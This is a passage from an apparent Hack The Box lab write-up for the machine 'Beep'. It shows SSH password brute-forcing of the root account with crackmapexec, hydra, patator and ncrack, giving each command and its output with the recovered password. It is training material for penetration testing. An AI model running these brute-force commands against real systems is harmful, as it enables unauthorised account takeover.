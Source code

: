We can try to bruteforce SSH:

```shell
❯ crackmapexec ssh 10.10.10.7 -u htb/box/Beep/users.txt  -p passwords.txt
SSH         10.10.10.7      22     10.10.10.7       [*] SSH-2.0-OpenSSH_4.3
SSH         10.10.10.7      22     10.10.10.7       [-] root:amp109 Authentication failed.
SSH         10.10.10.7      22     10.10.10.7       [+] root:jEhdIekWmdjE (Pwn3d!)
```

We can also use hydra:

```shell
❯ hydra -L htb/box/Beep/users.txt -P passwords.txt -s 22 ssh://10.10.10.7 -v -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 18:37:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 24 login tries (l:6/p:4), ~6 tries per task
[DATA] attacking ssh://10.10.10.7:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://root@10.10.10.7:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.7:22
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```

Alternatively, patator is useful as well:

```shell
❯ patator ssh_login host=10.10.10.7 port=22 user=FILE0 password=FILE1 0=htb/box/Beep/users.txt 1=passwords.txt
18:39:49 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.8 at 2021-12-22 18:39 EST
18:39:49 patator    INFO -
18:39:49 patator    INFO - code  size    time | candidate                          |   num | mesg
18:39:49 patator    INFO - -----------------------------------------------------------------------------
18:40:01 patator    INFO - 0     19    10.516 | root:jEhdIekWmdjE                  |     2 | SSH-2.0-OpenSSH_4.3
```

Ncrack is also an option:

```shell
❯ ncrack -p 22 -U htb/box/Beep/users.txt -P passwords.txt 10.10.10.7 -T 5

Starting Ncrack 0.7 ( http://ncrack.org ) at 2021-12-22 18:41 EST

Discovered credentials for ssh on 10.10.10.7 22/tcp:
10.10.10.7 22/tcp ssh: 'root' 'jEhdIekWmdjE'

Ncrack done: 1 service scanned in 42.01 seconds.

Ncrack finished.
```
